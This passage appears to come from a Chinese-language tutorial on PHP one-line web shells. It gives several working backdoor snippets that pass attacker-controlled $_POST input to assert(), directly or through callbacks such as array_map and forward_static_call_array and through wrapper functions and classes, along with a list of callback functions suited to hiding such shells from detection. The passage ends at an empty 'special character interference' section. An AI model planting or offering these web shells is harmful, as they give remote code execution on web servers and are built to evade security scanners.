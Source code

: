 ```php
<?php 
function kdog($a){
    assert($a);
}
kdog($_POST[x]);
?>
```
## 2.3. 回调函数
### 2.3.1. 回调函数列表
```php
call_user_func_array()
call_user_func()
array_filter() 
array_walk()  
array_map()
registregister_shutdown_function()
register_tick_function()
filter_var() 
filter_var_array() 
uasort() 
uksort() 
array_reduce()
array_walk() 
array_walk_recursive()
```
### 2.3.2. 冷门回调函数
```php
<?php 
forward_static_call_array(assert,array($_POST[x]));
?>
```
### 2.3.3. 回调函数变形
定义函数或者类来调用回调函数
```php
//定义一个函数
<?php
function test($a,$b){
    array_map($a,$b);
}
test(assert,array($_POST['x']));
?>
//定义一个类
<?php
class loveme {
    var $a;
    var $b;
    function __construct($a,$b) {
        $this->a=$a;
        $this->b=$b;
    }
    function test() {
       array_map($this->a,$this->b);
    }
}
$p1=new loveme(assert,array($_POST['x']));
$p1->test();
?>
```
## 2.4. 特殊字符干扰
```php
```